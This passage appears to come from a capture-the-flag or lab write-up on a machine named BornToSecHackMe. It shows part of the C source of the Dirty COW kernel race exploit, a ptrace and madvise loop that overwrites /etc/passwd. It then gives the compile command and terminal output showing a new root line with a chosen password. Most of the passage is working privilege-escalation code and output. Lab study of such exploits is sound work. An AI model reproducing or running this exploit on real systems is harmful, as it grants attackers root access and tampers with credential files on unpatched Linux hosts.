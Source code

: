 ```c
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```

We'll change the value of `const char *salt` and `user.username` to `root` and compile it with the following command `gcc -pthread dirty.c -o exploit -lcrypt`.

```
zaz@BornToSecHackMe:~$ ./exploit
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
root:roN2GPOCKDcvs:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'motdepasse'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password 'motdepasse'.
```